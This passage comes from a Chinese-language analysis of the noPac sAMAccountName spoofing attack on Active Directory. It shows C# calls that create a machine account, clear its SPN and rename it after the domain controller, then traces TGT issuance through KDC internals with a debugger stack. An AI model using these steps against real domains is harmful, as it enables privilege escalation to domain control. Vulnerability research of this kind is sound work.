 ~~上图显示了Active Directory中的完整目录树，其中需要注意的是Computers和Domain Controllers这两项在目录树中的相对位置，正是由于Computer在前，在遍历目录树时才会先获得新建的DC同名账户。~~  
从上图中可以很明确的看到域控的机器名为`WINSRVSERVER$`，之后会使用`WINSRVSERVER`作为机器账户名进行欺骗。

### 攻击准备工作

相关准备工作不是本文重点，可以在noPac项目中学习

``` c#
//new machine account
NewMachineAccount(argContainer, argDistinguishedName, argDomain, argDomainController, argMachineAccount, argMachinePassword, argVerbose, argRandom, credential);

//clean spn
SetMachineAccountAttribute(argContainer, argDistinguishedName, argDomain, argDomainController, "serviceprincipalname", argMachineAccount, "", false, true, argVerbose, credential);

//set samaccountname
SetMachineAccountAttribute(argContainer, argDistinguishedName, argDomain, argDomainController, "samaccountname", argMachineAccount, argDomainController.Split('.')[0], false, false, argVerbose, credential);
```

### 申请TGT

申请TGT时是根据修改后的机器账号`WINSRVSERVER`进行申请的。  
域控调用`I_GetASTicket`处理`AS_REQ`消息  
首先会调用`KdcNormalize`获得账户的相关信息包括`UserInfo`、`ClientTicketInfo`等  
！！！请谨记这个函数，之后的漏洞利用过程会展开分析！！！

``` cpp
KerbErr = KdcNormalize(
                ClientName,
                NULL,
                RequestRealm,
                NULL,           // no source ticket
                NameFlags | KDC_NAME_CLIENT | KDC_NAME_FOLLOW_REFERRALS | KDC_NAME_CHECK_GC,
                FALSE,          // do not restrict user accounts (user2user)
                &ClientReferral,
                ClientRealm,
                &ClientTicketInfo,
                pExtendedError,
                &UserHandle,
                WhichFields,
                0L,
                &UserInfo,
                &GroupMembership
                );
```

通过上面获得的`ClientTicketInfo`调用`BuildTicketAS`生成TGT，堆栈如下

``` text
kd> kc
# 
00 KDCSVC!BuildTicketAS
01 KDCSVC!I_GetASTicket
02 KDCSVC!KdcGetTicket
03 KDCSVC!KdcAtqIoCompletion
04 NTDSATQ!ATQ_CONTEXT::IOCompletion
05 NTDSATQ!AtqpProcessContext
06 NTDSATQ!AtqPoolThread
07 kernel32!BaseThreadStart
```
